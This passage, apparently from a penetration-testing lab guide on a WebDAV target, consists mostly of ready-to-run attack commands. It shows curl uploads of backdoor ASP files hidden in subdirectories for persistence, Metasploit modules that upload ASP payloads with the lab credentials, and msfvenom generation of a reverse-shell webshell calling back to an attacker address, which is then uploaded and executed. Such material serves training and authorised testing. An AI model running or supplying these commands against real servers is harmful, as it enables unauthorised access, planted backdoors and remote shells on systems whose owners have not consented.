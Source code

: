 ### Persistence Mechanisms
```bash
# Upload additional backdoors
curl -X PUT --data-binary @backdoor.asp \
  --user bob:password_123321 \
  http://demo.ine.local/webdav/maintenance.asp

# Hide files in subdirectories
curl -X MKCOL --user bob:password_123321 \
  http://demo.ine.local/webdav/logs/
curl -X PUT --data-binary @persistent.asp \
  --user bob:password_123321 \
  http://demo.ine.local/webdav/logs/update.asp
```

---

## 🔧 Tool Integration and Automation

### Metasploit WebDAV Modules
```bash
# WebDAV scanner
use auxiliary/scanner/http/webdav_scanner
set RHOSTS target.com
run

# WebDAV upload exploit
use exploit/windows/iis/iis_webdav_upload_asp  
set RHOSTS demo.ine.local
set HttpUsername bob
set HttpPassword password_123321
run

# Alternative payloads
show payloads
set payload windows/shell/reverse_tcp
set payload windows/meterpreter/reverse_tcp
```

### Manual Payload Generation
```bash
# Create custom webshell payload
msfvenom -p windows/shell_reverse_tcp LHOST=[attacker_ip] LPORT=4444 -f asp > shell.asp

# Manual upload with curl
curl -X PUT -T shell.asp -u bob:password_123321 http://demo.ine.local/webdav/shell.asp

# Execute payload
curl http://demo.ine.local/webdav/shell.asp
```
